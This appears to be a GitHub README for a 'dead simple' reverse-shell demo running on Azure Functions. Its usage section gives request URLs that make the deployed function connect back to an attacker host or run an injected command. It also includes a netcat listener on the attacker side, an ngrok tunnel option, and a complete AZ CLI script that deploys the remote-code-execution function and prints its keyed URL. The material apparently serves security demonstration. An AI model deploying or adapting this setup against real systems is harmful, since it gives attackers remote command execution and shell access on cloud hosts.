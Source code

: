 

# Dead simple reverse shell example

Uses node.js exec() for reverseShell lolbins present at Azure Functions, (bash could be also used, but I had one of the lolbins ready from previous example)

[``/rce/index.js``](/rce/index.js)


// Examples https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md


## Usage



        shell = host or fqdn
        port = portNmbr
        https://fn-reverseshell-26735.azurewebsites.net/api/rce?code={functionKey}&shell=contosoReverseShell.io&port=14577 

        or to just inject 
        https://fn-rshell-15002.azurewebsites.net/api/rce?code=={functionKey}&inject=id

## Listener example
    at attacker side aka. contosoReverseShell.io
        nc -l 4444 -vvv



**Ngrok can also be used to publish the attacker endpoint**

The use of NGROK was previosly demonstrated here
 https://github.com/pumasecurity/serverless-prey/tree/main/cougar 

---

## Deploy with AZ CLI
```sh
#az login --use-device-code
#az account set --subscription 78020cde-0dd8-4ac6-a6d4-21bac00fb343
#Define starting variables
rnd=15002
fnName=fn-rShell-$rnd
rg=RG-FN-$rnd
location=westeurope
# You can ignore the warning "command substitution: ignored null byte in input"
storageAcc=storage$(shuf -zer -n10  {a..z})

# Create Resource Group (retention tag is just example, based on another service)
az group create -n $rg \
-l $location \

# Create storageAcc Account 
saId=$(az storage account create -n $storageAcc  -g $rg --kind storageV2 -l $location -t Account --sku Standard_LRS  -o tsv --query "id")
saConstring=$(az storage account show-connection-string -g $rg  -n  $storageAcc -o tsv --query "connectionString")

## Create Function App
az functionapp create \
--functions-version 3 \
--consumption-plan-location $location \
--name $fnName \
--os-type linux \
--resource-group $rg \
--runtime node \
--storage-account $storageAcc
#
sleep 10

# Set to read-only, list variables here you want to be also part of cloud deployment
az functionapp config appsettings set \
--name $fnName \
--resource-group $rg \
--settings WEBSITE_RUN_FROM_PACKAGE=1 

#Create ZIP package 

7z a -tzip deploy.zip . -r -mx0 -xr\!*.git -xr\!*.vscode 
az functionapp deployment source config-zip -g $rg -n $fnName --src deploy.zip

keys=$(az functionapp keys list -g $rg -n $fnName -o tsv --query functionKeys) 
msiFn=$(az functionapp function show -g $rg -n $fnName --function-name rce -o tsv --query invokeUrlTemplate)
echo "$msiFn"?code="$keys"

#
rm deploy.zip

nc -l 4444 -vvv
# IF ngrok is used ( run this on agent )
ngrok tcp 4444
```
